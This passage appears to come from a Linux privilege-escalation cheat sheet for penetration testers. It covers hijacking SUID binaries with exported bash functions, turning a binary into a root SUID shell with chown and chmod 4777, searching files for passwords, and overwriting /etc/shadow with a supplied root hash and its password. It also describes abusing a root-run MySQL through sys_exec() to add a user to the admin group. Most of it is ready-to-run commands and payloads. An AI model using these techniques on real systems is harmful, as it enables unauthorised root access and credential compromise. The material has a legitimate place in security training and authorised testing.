 Adding a binary to PATH, to hijack another SUID binary invokes it without the fully qualified path.

```
function /usr/bin/foo () { /usr/bin/echo "It works"; }
export -f /usr/bin/foo
/usr/bin/foo
It works
```

If you can get root to execute anything, the following will change a binary owner to him and set the SUID flag:

```
chown root:root /tmp/setuid;chmod 4777 /tmp/setuid;
```

```
#look for the string password in files in the current directory
grep -rwl "password"
```

### /etc/shadow overwrite

If a SUID binary allows you to write to a file, overwrite **/etc/shadow** with the following then **su** to root using password **rowbot**

```
root:$6$saltsalt$zjiFtiGFBUkyU86/TTUE1Dgg6ZNem6QUdhcVVRsjLXvWGjCm90F/2.PDpGOfGCspP0/j6a6YLlImSqQZIUmqc.:18294:0:99999:7:::
```

### Check running services and installed applications <a href="#check-running-services-and-installed-applications" id="check-running-services-and-installed-applications"></a>

`ps -ef cat /etc/services dpkg -l rpm -qa`

An example here is for instance that you see a local database like mysql is running. Maybe you are able to find credentials for it and log into it locally on the box

If MYSQL is running as root, you can run commands using **sys\_exec()**. For instance, to add user to sudoers:

```
ps -aux | grep root | grep mysql
```

```
sys_exec('usermod -a -G admin username')
```

More about MYSQL:

```
https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/
```

Command to skip ignored lines in config files

